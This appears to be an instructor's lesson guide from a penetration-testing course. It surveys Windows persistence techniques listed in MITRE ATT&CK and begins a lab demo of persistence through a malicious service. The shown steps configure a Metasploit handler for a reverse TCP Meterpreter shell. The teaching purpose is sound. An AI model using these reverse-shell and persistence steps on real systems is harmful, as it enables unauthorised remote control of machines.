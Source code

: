 - **MITRE technique: [Boot or Logon Initialization Scripts: Logon Script (Windows)](https://attack.mitre.org/techniques/T1037/001/)**
  - In this technique, a pen tester can register a script as a registry key that will execute on startup or login. 

- **MITRE technique: [Create or Modify System Process: Windows Service](https://attack.mitre.org/techniques/T1543/003/)**
  - In this technique, a pen tester can modify a service to run an executable on startup. 
    - Remind students that services are run as SYSTEM by default. 
    - Even though services can be abused for privilege escalation, they can also be used for persistence.

- **MITRE technique: [Event Triggered Execution: Windows Management Instrumentation Event Subscription](https://attack.mitre.org/techniques/T1546/003/)**
  - This technique leverages Windows Management Instrumentation (WMI), a way of managing Windows machines, to perform an action once a specific event in Windows is triggered. 
  - For example, whenever a logon event is created in Windows (which occurs when a user logs in), use WMI to start a new process (which could be a payload). 

- **MITRE technique: [Event Triggered Execution: Screensaver](https://attack.mitre.org/techniques/T1546/002/)**
  - This technique allows the pen tester to replace the executable that is used to display the screensaver with a malicious executable or payload. 

Point out that these are just some examples of persistence techniques in Windows, and this isn't a comprehensive list.
- Inform students that you will now demonstrate the persistence technique of creating a malicious service.
	
	
#### Windows Persistence Demo

To demonstrate persistence using malicious services, you will use `msfvenom` to generate a Meterpreter payload, transport it to the Windows machine, and register a service using it. 

- This requires an active shell as SYSTEM on the Windows 10 machine. Note: The first six steps listed detail how to open a Meterpreter shell on the Windows 10 machine if you do not have an active session already.

1. Log in to Kali and open a terminal. Start Metasploit with the following command:

     - `msfconsole`
	 
**Note:** If you already have Metasploit open and running, kill any jobs that may be running in the background with `jobs -K`.

2. Load the `multi/handler` module with the following command:

	 - `use exploit/multi/handler`
	
3. Set the parameters to listen for the payload with the following commands:

	 - `set LHOST 172.22.117.100`
	 - `set LPORT 4444`
	 - `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
	 - `run -j`
